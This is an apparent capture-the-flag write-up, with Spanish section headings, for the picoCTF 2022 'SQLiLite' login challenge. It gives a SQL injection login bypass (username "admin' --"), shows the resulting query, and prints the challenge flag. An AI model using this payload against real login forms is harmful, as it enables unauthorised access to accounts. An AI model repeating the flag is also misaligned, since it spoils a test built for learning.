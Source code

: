 # Descripcion
Can you login to this website?Can you login to this website?

# Pistas
(None)

# Solucion
```
username: admin' --

password: asd

SQL query: SELECT * FROM users WHERE name='admin' --' AND password='asd'

Logged in! But can you see the flag, it is in plainsight.
```

# Bandera
picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}

# Notas adicionales


# Referencias
[SQLiLite | picoCTF 2022 - YouTube](https://www.youtube.com/watch?v=FNVx9hCSwTY)
